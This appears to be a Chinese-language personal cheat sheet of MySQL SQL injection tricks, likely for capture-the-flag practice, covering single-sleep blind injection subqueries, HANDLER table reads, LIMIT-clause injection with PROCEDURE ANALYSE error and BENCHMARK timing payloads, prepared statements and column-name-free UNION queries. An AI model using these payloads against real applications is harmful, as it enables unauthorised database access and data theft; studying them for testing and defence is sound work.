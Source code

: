 - # 布尔盲注只Sleep一次
	- 利用子查询
		- ```sql
		  # 114514<1919810是布尔盲注点
		  select * from test order by (select 1 from (select sleep(if(114514<1919810,1,0)))b);
		  # 或者
		  select * from test where (select 1 from (select sleep(if(114514<1919810,1,0)))b);
		  ```
# 使用 handler 读取 table
	- ```sql
	  handler table open;
	  handler table read first;
	  handler table close;
	  ```
- # 向 ID 参数注入
	- 大概率是整型注入, 不用加引号
# Limit 后注入
	- 这种注入也不是很常见，依照 [https://rateip.com/blog/sql-injections-in-mysql-limit-clause/](https://rateip.com/blog/sql-injections-in-mysql-limit-clause/) 来提一下
	  
	  ```
	  mysql> select * from admin where id >0 limit 0,1 $id
	  ```
	  
	  如何利用呢 大佬们已经给出方法了 用  `PROCEDURE ANALYSE`  配合报错注入,所以多看文档，如果你想提升下自己的水平
	  
	  ```
	  mysql> select * from admin where id >0 order by id limit 0,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
	  ERROR 1105 (HY000): XPATH syntax error: ':5.5.53'
	  ERROR:
	  No query specified
	  ```
	  
	  这里延时只能使用 `BENCHMARK()`  如同
	  
	  ```
	  select * from admin where id >0 order by id limit 0,1 PROCEDURE analyse(extractvalue(rand(),concat(0x3a,(if(1=1,benchmark(2000000,md5(404)),1)))),1);
	  ```
- # 预处理语句
	- ```sql
	  SET @sql = concat('select * from ', 'flag');
	  PREPARE name from @sql;
	  EXECUTE name;
	  DEALLOCATE PREPARE name;
	  ```
	  
	  传参
	  
	  ```sql
	  mysql> SET @s = 'SELECT SQRT(POW(?,2) + POW(?,2)) AS hypotenuse';
	  Query OK, 0 rows affected (0.00 sec)
	  
	  mysql> PREPARE stmt2 FROM @s;
	  Query OK, 0 rows affected (0.00 sec)
	  Statement prepared
	  
	  mysql> SET @c = 6;
	  Query OK, 0 rows affected (0.00 sec)
	  
	  mysql> SET @d = 8;
	  Query OK, 0 rows affected (0.00 sec)
	  
	  mysql> EXECUTE stmt2 USING @c, @d;
	  +------------+
	  | hypotenuse |
	  +------------+
	  |         10 |
	  +------------+
	  1 row in set (0.00 sec)
	  
	  mysql> DEALLOCATE PREPARE stmt2;
	  Query OK, 0 rows affected (0.00 sec)
	  ```
# 无列名注入
	- ```sql
	  select a from (select 1 as a, 2 as b union select * from test)x limit 1 offset 1 # offset 向下偏移几行，即读取除了(1,2)之外的第几行数据
	  ```
# mysqli_real_escape_string
	- 使用 mysqli_real_escape_string 处理的 string 在插入 mysql 后会变为原样
- # 表名加引号
	- 可以在表名上使用反引号，如：
	- ```sql
	  select name from `114514`
	  ```
# 大小写敏感
	- 用`utf8mb4_0900_as_cs`
# 同时使用 insert 和 or
	- ```mysql
	  insert into test (id, name) values (2, '0' or '1');
	  ```